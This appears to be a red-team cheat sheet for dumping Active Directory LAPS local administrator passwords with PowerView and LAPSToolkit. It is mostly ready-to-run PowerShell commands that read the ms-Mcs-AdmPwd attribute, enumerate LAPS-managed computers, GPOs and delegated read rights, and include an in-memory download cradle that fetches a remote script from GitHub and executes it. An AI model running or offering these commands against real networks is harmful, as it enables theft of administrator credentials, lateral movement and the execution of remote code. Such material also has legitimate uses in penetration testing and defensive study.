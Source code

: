# Scripts

## PowerSploit

```
PS C:\> Import-Module .\PowerView.ps1
```

Retrieve password.

```
PS C:\> Get-DomainObject -Identity <IP> -Properties ms-Mcs-AdmPwd
```

Find GPOs that have `LAPS` or some other descriptive term in the name.

```
PS C:\> Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | Select-Object DisplayName, Name, GPCFileSysPath | Format-List
```

Search computer objects where the `ms-Mcs-AdmPwdExpirationTime` property is not null (any Domain User can read this property).

```
PS C:\> Get-DomainObject -SearchBase "LDAP://[DC=<subdomain>,]DC=<domain>,DC=<tld>" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```

```powershell
Get-NetOU -FullData | Get-ObjectAcl -ResolveGUIDs | Where-Object {
($_.ObjectType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty') 
}
```

## LAPSToolkit

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/refs/heads/master/LAPSToolkit.ps1')
```

```
PS C:\> Get-LAPSComputers
```

```
PS C:\> Find-LAPSDelegatedGroups
```

```
PS C:\> Find-AdmPwdExtendedRights
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x03 - OS Credential Dumping/Windows/Active Directory/LAPS/Manual/Living off the Land]]

### Github

- [leoloobeek: LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
